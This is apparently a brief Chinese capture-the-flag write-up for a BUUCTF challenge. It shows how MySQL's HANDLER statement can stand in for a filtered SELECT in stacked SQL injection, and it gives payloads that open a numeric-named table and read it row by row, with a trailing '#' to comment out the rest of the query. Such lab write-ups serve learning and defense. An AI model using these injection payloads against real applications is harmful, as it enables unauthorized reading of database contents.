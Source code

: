 ### handler 代替 select

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/682afb5c58cb8da5c8fc3326.jpg)

如果 handler 没有被过滤，可以使用代替 select

但它只能一行一行读取数据

首先使用 `handler table_name open` 打开这个数字表

```sql
handler `1919810931114514` open as a;
```

打开成功后才能开始读取数据

```sql
handler `a` read next;#
```

![](https://pic1.imgdb.cn/item/6848e0a458cb8da5c842d221.jpg)